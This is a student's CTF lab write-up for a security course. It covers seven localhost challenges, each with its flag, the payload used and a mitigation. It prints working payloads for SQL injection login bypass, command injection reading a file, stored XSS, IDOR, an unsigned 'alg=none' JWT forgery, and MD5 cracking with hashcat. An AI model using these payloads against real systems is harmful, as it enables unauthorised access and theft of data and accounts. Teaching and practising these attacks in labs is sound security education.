



# Week 9 — Midterm CTF Practical (Answers & Evidence)

- **Student Name:** Swan Htut Oakkar Aung
- **Student ID:** `6631503088`
- **Total Points:** 100 / 100

---

## Submission Summary Table

| # | Challenge | Topic | Pts | Flag / Proof | Payload / Command |
|---|---|---|:---:|---|---|
| 1 | **Boolean Bypass** | SQLi | 15 | `FLAG{sqli_17e60498}` | `admin'--` |
| 2 | **Shell Out** | Command Injection | 15 | `FLAG{cmdi_91f24b8d}` | `127.0.0.1;cat /flag.txt` |
| 3 | **Pop the Alert** | Stored XSS | 15 | Alert popup proof (`localhost`) | `<script>alert(document.domain)</script>` |
| 4 | **Not Your Order** | IDOR | 15 | `FLAG{idor_2783e815}` | Alice token to `GET /api/orders/2` |
| 5 | **Forge Ahead** | Broken JWT | 15 | `FLAG{jwt_931ab6c9}` | Forged `sub="admin"` JWT (`alg="none"`) |
| 6 | **Crack It** | Weak Hash | 15 | `password123`, `123456`, `123456789`, `password` | `hashcat -m 0 clean_hashes.txt wordlist.txt -d 1 -O` |
| 7 | **Penguin** | ECB Oracle | 10 | Block 1 & 2 Match: `3bfd04cc0d7ed55358e2cbe19de21383` | `python3 -c 'from vulnerable_crypto import encrypt_ecb...'` |

---

## Detailed Challenge Walkthrough & Mitigations

### 1. Boolean Bypass (SQLi) — 15 pts
- **Flag:** `FLAG{sqli_17e60498}` (Retrieved via UNION injection: `admin`'s password is the flag)
- **Payload:** `admin'--` (submitted via `/login?user=admin'--&pw=x`)
- **Mitigation:** Implement parameterized queries (prepared statements) using `?` placeholders so the database engine pre-compiles the query structure and treats user input strictly as a passive data literal rather than executable SQL grammar.

---

### 2. Shell Out (Command Injection) — 15 pts
- **Flag:** `FLAG{cmdi_91f24b8d}`
- **Payload:** `127.0.0.1;cat /flag.txt` (submitted via `/ping?host=127.0.0.1;cat+/flag.txt`)
- **Mitigation:** Execute system commands without a shell by passing an argument array with `shell=False` (e.g., `subprocess.run(["ping", "-c", "1", host], shell=False)`) and enforce strict allow-list regex validation on the `host` parameter.

---

### 3. Pop the Alert (Stored XSS) — 15 pts *(Screenshot Required)*
- **Flag:** N/A (Stored XSS execution proof via alert popup: `localhost`)
- **Payload:** `<script>alert(document.domain)</script>`
- **Mitigation:** Enforce contextual HTML entity output encoding (such as Jinja2 template autoescaping) when rendering comments so that characters like `<` and `>` are converted to `&lt;` and `&gt;`, and implement a strict Content Security Policy (e.g. `script-src 'self'`) that blocks inline script execution.
- **Evidence Screenshot (`3-6631503088.png`):**



---

### 4. Not Your Order (IDOR) — 15 pts
- **Flag:** `FLAG{idor_2783e815}`
- **Payload:** Log in as `alice` (`POST /login` with `{"user":"alice","pw":"alicepw"}`) to obtain a JWT bearer token, then request `GET /api/orders/2` with header `Authorization: Bearer <alice_token>` to view Bob's order object.
- **Mitigation:** Enforce server-side authorization checks on object access: retrieve the logged-in user identity from the verified session/token and verify that `order["owner"] == current_user` (or the user has an administrative role) before returning the record; return `403 Forbidden` otherwise.

---

### 5. Forge Ahead (Broken JWT) — 15 pts
- **Flag:** `FLAG{jwt_931ab6c9}`
- **Payload:** Construct a forged JWT token with payload `{"sub":"admin"}` and set `alg="none"` (`eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiJhZG1pbiJ9.`) or sign with the weak hardcoded secret `"secret"`, then send `GET /api/admin` with header `Authorization: Bearer <token>`.
- **Mitigation:** Reject `none` algorithm tokens by explicitly specifying allowed signature algorithms in `jwt.decode(..., algorithms=["HS256"])`, use a cryptographically strong high-entropy secret stored securely in environment variables, and verify signatures for all incoming tokens before trusting claims.

---

### 6. Crack It (Weak Hash) — 15 pts *(Screenshot Required)*
- **Flag (Recovered Plaintexts):**
  - `482c811da5d5b4bc6d497ffa98491e38` $\rightarrow$ `password123`
  - `e10adc3949ba59abbe56e057f20f883e` $\rightarrow$ `123456`
  - `25f9e794323b453885f5181f1b624d0b` $\rightarrow$ `123456789`
  - `5f4dcc3b5aa765d61d8327deb882cf99` $\rightarrow$ `password`
- **Payload / Command:** `hashcat -m 0 clean_hashes.txt wordlist.txt -d 1 -O`
- **Mitigation:** Replace fast, unsalted hashing algorithms (like MD5) with modern memory-hard, computationally expensive password hashing functions such as Argon2id (or bcrypt) using unique per-user cryptographically random salts.
- **Evidence Screenshot (`6-6631503088.png`):**



---

### 7. Penguin (ECB Oracle) — 10 pts *(Screenshot Required)*
- **Flag / Proof:**
  - `Block 1 (16 bytes): 3bfd04cc0d7ed55358e2cbe19de21383`
  - `Block 2 (16 bytes): 3bfd04cc0d7ed55358e2cbe19de21383` (Identical repeated 16-byte blocks prove ECB deterministic structure leak)
- **Payload / Command:**
  ```bash
  python3 -c 'from vulnerable_crypto import encrypt_ecb; c = encrypt_ecb(b"A"*32).hex(); print("Block 1 (16 bytes):", c[:32]); print("Block 2 (16 bytes):", c[32:64]); print("Blocks match perfectly:", c[:32] == c[32:64])'
  ```
- **Mitigation:** Switch from ECB mode to an Authenticated Encryption with Associated Data (AEAD) cipher mode such as AES-GCM (or ChaCha20-Poly1305) using a unique, cryptographically random 12-byte nonce for each encryption to prevent deterministic pattern leakage and ensure ciphertext integrity.
- **Evidence Screenshot (`7-6631503088.png`):**


